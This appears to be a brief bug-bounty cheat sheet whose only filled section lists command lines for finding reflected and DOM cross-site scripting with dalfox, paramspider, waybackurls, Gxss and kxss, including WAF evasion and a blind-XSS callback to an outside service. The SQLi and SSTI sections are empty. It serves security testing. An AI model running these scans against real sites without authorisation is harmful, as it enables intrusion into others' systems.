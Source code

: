 <details>
  <summary>XSS</summary>

    dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
    dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 
    
    
    
    
    paramspider --domain domain.com
    paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
    
    echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
    
    
    cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
    
    cat domain.txt | kxss
    
</details>

---------------------------------------------------------------------------------
<details>
  <summary>SQLi</summary>

</details>

---------------------------------------------------------------------------------
<details>
  <summary>SSTI</summary>

</details>

